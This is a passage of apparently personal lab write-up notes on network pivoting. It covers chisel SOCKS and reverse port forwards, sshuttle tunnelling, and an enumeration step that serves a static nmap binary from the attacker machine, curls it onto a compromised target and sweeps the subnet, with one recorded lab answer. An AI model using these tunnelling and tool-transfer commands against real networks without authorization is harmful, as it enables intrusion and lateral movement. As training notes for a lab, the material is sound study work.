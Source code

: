 __Forward SOCKS Proxy__

1. On target `./chisel server -p LISTEN_PORT --socks5`
2. On attacker `./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

__Remote Port Forward__

1. Attacker: `./chisel server -p LISTEN_PORT --reverse &`
2. Target: `./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

__Local Port Forward__

1. Setup on Target: `./chisel server -p LISTEN_PORT`
2. Connect from Attacker: `./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

> As with the backgrounded socat processes, when we want to destroy our chisel connections we can use jobs to see a list of backgrounded jobs, then kill %NUMBER to destroy each of the chisel processes.

> Note: When using Chisel on Windows, it's important to remember to upload it with a file extension of .exe (e.g. chisel.exe)!

* * * 

## Pivoting - sshuttle 

sshuttle is different than the others, it doesn't create a port forward and the proxy it uses a SSH connection to create a tunnelled proxy that in a way simulated a VPN and gives an encrypyed connection. sshuttle only works on Linux targets and also requireds access to the compromised server via SSH. It also needs Python. can be installed with `sudo apt install sshuttle`

- connect to a server with sshuttle `sshuttle -r username@address subnet` - rather then specifying subnuts we can also use `-N` to determine them automatically. 
- when using key-based authentication `sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET`

* * * 

## Git Server - Enumeration

We now have the task of putting what we have learned so far to the test.

Download the [static nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true). With the nmap binary download and changed we can upload to the target.

1. `python3 -m http.server 80`
2. `curl ip/nmap-0xskar -o /tmp/nmap-0xskar && chmod +x /tmp/nmap-0xskar`

**Answer the questions below**

**Excluding the out of scope hosts, and the current host (.200), how many hosts were discovered active on the network?**

- `./nmap-0xskar -sn 10.200.105.1-255 -oN scan-0xskar` - 2 hosts

**In ascending order, what are the last octets of these host IPv4 addresses? (e.g. if the address was 172.16.0.80, submit the 80)**

